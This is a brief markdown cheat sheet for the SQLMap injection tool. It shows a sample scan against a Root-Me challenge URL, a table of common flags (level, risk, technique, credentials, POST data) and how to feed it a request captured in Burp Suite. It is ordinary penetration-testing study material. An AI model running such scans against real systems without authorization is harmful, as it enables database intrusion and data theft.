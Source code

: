 # SQLMap

```bash
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --level=2 --risk=2
```

| Tag            | value                         | Description                                                              |
| -------------- | ----------------------------- | ------------------------------------------------------------------------ |
| **-u**             | URL                           | the target URL                                                           |
| **-p**             | parameter                     | The parameter to test                                                    |
| **--level**        | 1 to 5                        |                                                                          |
| **--risk**         | 1 to 3                        |                                                                          |
| **--random-agent** |                               | Randomize the user-agent                                                 |
| **--dbms**         | string                        | The DBMS tech if known                                                   |
| **--auth-type**    | (Basic, Digest, NTLM or PKI)  | Authentication type                                                      |
| **--auth-creds**   | name:password                 | Authentication credentials                                               |
| **--threads**      | INT                           | Thread number                                                            |
| **--technique**    | UB                            | Use only techniques UNION and BLIND in that order (default "BEUSTQ")<br> |
| **-r**             | file                          | Specify a capured request from Burpsuite                                 |
| **--data**         | "username=\*&password=\*"<br> | Specify post data when dealing with POST request                         |
| **--method**       | PUT                           | Specify the request VERB                                                 |
| **--string**       | "string showed when true"     | Indicate string when injection is successful                             |

# From BurpSuite

1. Capture a request
2. Paste it in a `req.txt` file

```bash
sqlmap -r req.txt
```

# Resources

- https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap